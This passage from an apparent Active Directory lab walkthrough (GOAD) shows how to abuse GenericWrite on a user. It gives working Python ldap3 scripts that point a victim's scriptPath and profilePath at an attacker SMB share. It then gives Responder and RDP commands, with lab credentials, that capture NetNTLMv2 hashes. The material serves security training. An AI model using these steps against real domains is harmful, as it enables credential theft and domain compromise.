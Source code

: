![acl_show_scriptpath.png](/assets/blog/GOAD/acl_show_scriptpath.png)


- We can change this value with the following script:

```python
import ldap3
dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
user = "sevenkingdoms.local\\jaime.lannister"
password = "pasdebraspasdechocolat"
server = ldap3.Server('kingslanding.sevenkingdoms.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'scriptpath' : [(ldap3.MODIFY_REPLACE, '\\\\192.168.56.1\share\exploit.bat')]})
print(ldap_con.result)
ldap_con.unbind()
```

![acl_modify_ldap_scriptpath.png](/assets/blog/GOAD/acl_modify_ldap_scriptpath.png)

- but sadly this won't work... :'( (if you know why please let me know, this seems to work only if the script is already located in sysvol)

- Another way to abuse the GenericWrite is by changing the profilePath and wait for a connection to get a NetNtlmv2 authentication and relay to another computer or crack it.

- Change the value of profilePath with the following script :

```python
import ldap3
dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
user = "sevenkingdoms.local\\jaime.lannister"
password = "pasdebraspasdechocolat"
server = ldap3.Server('kingslanding.sevenkingdoms.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'profilePath' : [(ldap3.MODIFY_REPLACE, '\\\\192.168.56.1\share')]})
print(ldap_con.result)
ldap_con.unbind()
```

- Start responder and simulate joffrey connection by starting an RDP connection

```bash
responder -I vboxnet0
xfreerdp /d:sevenkingdoms.local /u:joffrey.baratheon /p:'1killerlion' /v:192.168.56.10 /size:80%  /cert-ignore
```

- And we get the NetNLMV2 hash of joffrey.baratheon and... kingslanding$ !

![acl_profilePath.png](/assets/blog/GOAD/acl_profilePath.png)


## WriteDacl on User (Joffrey -> Tyron)
